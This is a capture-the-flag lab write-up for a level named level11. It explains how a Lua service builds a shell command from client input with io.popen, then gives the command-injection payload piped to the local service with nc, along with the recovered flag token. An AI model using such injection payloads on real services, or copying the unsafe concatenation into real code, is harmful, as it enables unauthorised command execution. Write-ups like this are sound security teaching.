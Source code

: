 # level11

1. Files found in `~/` :

```bash
level11.lua
```

2. Analysis of the `level11.lua` script

The service listens on `127.0.0.1:5151` and reads a line provided by the client.
It then executes :

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Problem : the `pass` variable is **concatenated** directly into a shell command → **shell injection possible** (substitutions `$(...)`, backticks, `;`, redirections, etc.).

3. Exploitation

The process executes with the rights of `flag11` → the objective is to execute `/bin/getflag` on the server side and write the output to a file readable by the user.

```bash
# send the payload to the service (from the same machine, as the service binds 127.0.0.1)
echo '$(/bin/getflag > /tmp/flag11; chmod 644 /tmp/flag11)' | nc 127.0.0.1 5151

# retrieve the created token
cat /tmp/flag11
```

4. Token discovered

The token is : `fa6v5ateaw21peobuub8ipe6s`